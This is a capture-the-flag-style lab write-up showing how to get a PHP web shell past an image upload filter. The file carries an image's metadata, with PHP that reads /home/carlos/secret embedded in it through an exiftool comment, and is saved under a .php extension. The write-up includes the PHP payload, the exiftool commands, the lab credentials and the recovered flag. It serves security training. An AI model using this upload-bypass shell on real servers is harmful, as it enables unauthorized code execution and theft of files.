




### Remote code execution via polyglot web shell upload : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file.
> Given login credentials `wiener:peter`.


> Logging in as wiener.


> We see this my-account page.


> Trying to upload a php shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
> `shell.php`.

> We get this response.



> We need the file we upload to have its actual content validated to be an image, but we can play with the metadata to put our php script there.

> We can do that using the `exiftool` in the command line, by adding a comment to the metadata of the picture we have.
``` Bash
exiftool -comment="mins" raven.jpg
```

> If we now run `exiftool raven.jpg` to see the metadata of the file.



> If we can change this comment to something more malicious, and then save the `.jpg` file into a `.php` file extension, we will have a file with the metadata of an image but an extension of an executable.
> This might bypass the filters on the webserver.
```bash
exiftool -comment="<?php echo 'HERE ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" -o attack1.php
```
> Added the `HERE ` and ` END` with string concatenation to be able to quickly find the output of the command between them.
> Added the `-o` flag to indicate the new output file we saved into.

> Now, if we upload this file and monitor the response.



> Going back to my-account and viewing the image slot in a new tab.
> We can look for the command output by looking for the HERE and END.



> We see the secret printed out between them.
> Copying it and submitting it to solve the lab.
```
GTgQ0awCkMIU8w2JUOVf1FjKjzGQ5tIw
```

---
